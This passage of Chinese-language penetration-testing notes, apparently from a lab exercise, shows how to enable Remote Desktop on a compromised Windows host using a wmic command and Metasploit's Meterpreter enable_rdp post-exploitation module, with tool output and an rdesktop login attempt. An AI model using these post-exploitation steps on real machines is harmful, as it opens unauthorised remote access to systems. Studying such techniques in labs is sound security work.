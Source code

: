 

#### 法二：VMIC (推荐)

> 该方法会自动开启系统远程桌面中的允许远程连接到此计算机并启动默认的3389端口

```
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
```

![image-20220814194107916](./st1.assets/image-20220814194107916.png)



#### 法三：MSF

##### **Meterpretr enable_rdp模块**

```
run post/windows/manage/enable_rdp 
run multi_console_command -r <FileLocation>				（文件为启用模块后的给的路径，都在/root/.msf4/loot/目录下）
```



```shell
meterpreter > run post/windows/manage/enable_rdp 

[*] Enabling Remote Desktop
[*]     RDP is already enabled
[*] Setting Terminal Services service startup mode
[*]     The Terminal Services service is not set to auto, changing it to auto ...
[*]     Opening port in local firewall if necessary
[*] For cleanup execute Meterpreter resource file: /root/.msf4/loot/20220814082551_default_192.168.220.138_host.windows.cle_346748.txt
meterpreter > 
meterpreter > run multi_console_command -r /root/.msf4/loot/20220814082551_default_192.168.220.138_host.windows.cle_346748.txt
[*] Running Command List ...
[*]     Running command execute -H -f cmd.exe -a "/c sc config termservice start= disabled"
Process 3008 created.
[*]     Running command execute -H -f cmd.exe -a "/c sc stop termservice"
Process 2848 created.
[*]     Running command execute -H -f cmd.exe -a "/c 'netsh firewall set service type = remotedesktop mode = enable'"
Process 1416 created.
```

##### GetGUI模块 (略)



#### 远程登录

在MSF里死活登不进

```
msf6 exploit(multi/handler) > rdesktop 192.168.220.138
[*] exec: rdesktop 192.168.220.138

Core(warning): Certificate received from server is NOT trusted by this sspecific certificate.
```
